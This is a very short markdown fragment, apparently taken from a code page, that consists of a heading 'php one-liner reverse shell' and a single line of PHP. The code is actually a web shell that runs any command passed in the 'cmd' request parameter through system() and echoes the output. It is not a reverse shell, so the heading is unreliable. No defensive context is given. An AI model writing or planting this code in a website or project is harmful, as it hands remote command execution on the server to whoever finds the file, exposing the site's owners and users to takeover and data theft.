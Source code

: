 ## php one-liner reverse shell
```<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>```
